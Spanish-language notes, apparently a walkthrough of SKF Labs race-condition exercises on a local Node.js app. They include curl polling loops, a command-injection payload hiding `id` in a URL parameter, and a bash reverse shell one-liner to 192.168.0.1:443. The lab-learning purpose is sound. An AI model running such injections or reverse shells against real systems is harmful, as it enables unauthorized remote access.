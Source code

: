 ==Las **condiciones de carrera** (también conocidas como **Race Condition**) son un tipo de vulnerabilidad que puede ocurrir en sistemas informáticos donde dos o más procesos o hilos de ejecución compiten por los mismos recursos sin que haya un mecanismo adecuado de sincronización para controlar el acceso a los mismos.==

==Esto significa que si dos procesos intentan acceder a un mismo recurso compartido al mismo tiempo, puede ocurrir que la salida de uno o ambos procesos sea impredecible, o incluso que se produzca un comportamiento no deseado en el sistema.==
==Los atacantes pueden aprovecharse de las condiciones de carrera para llevar a cabo ataques de denegación de servicio (**DoS**), sobreescribir datos críticos, obtener acceso no autorizado a recursos, o incluso ejecutar código malicioso en el sistema.==

skflabs / node js / race condition
Tenemos un escenario donde tenemos que ingresar un usuario pero tenemos unas condicionales que si intentamos meter comandos se borra el documento

Tenemos en la estructura un comando que dice hello.sh y almacena el nombre del usuario en un txt, pero si se incluye algun caracter especial se borra el hello.txt y no nos aparece el nombre del usuario
para ello analizando el codigo lo que hace es que si incluye algun caracter especial borra el hello.txt que se muestra constantemente en la pantalla y asi evita filtrar

pero nos da una pausa para interceptar el codigo ya que primero lo ejecuta segundamente lo analiza y por tercero valida si incluye algun caracter especial para borrar el contenido o sino contiene lo almacena


Para ello hacemos lo siguiente:
Instalamos apt install html2text

ejecutamos el siguiente codigo:

		while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep "Check this out" | html2text | xargs | grep -v "kenzy"; done


esto hara que detecte cualquier peticion diferente a la palabra hola aparezca y podamos interceptar la informacion antes de ser borrada

Ahora a la vez insertaremos el siguiente payload

	while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep "Check this out" | html2text | xargs | grep -vE "hola|Important|Default"; done


Esto hara la peticion de obtener id
		
	while true; do curl -s -X GET 'http://localhost:5000/?person=`id`&action=validate'; done


tmbn podemos probar una reverse shell 
	``--> `bash -c "bash -i>& /dev/tcp/192.168.0.1/443"`


--------------------
Caso 2:
Race Condition File Write --> skf labs (find -type d -name "skf-labs" 2>/dev/null)

Tenemos un caso donde lo que pongas en la url se descarga como contenido entonces para ello lo que haremos es ver lo que carga otra persona para ello ralizamos unas peticiones multiples con un bucle y con burpsuite enviamos otra peticion para corrrobar que se puede ver lo que otra persona sube

while true; do curl -s -X GET "https://localhost:5000/hola" | grep -b "hola"; done

 En burp enviamos la solicitud https://localhost:5000/testing
entonces podremos ver en la el bucle de peticion de get el contenido testing 













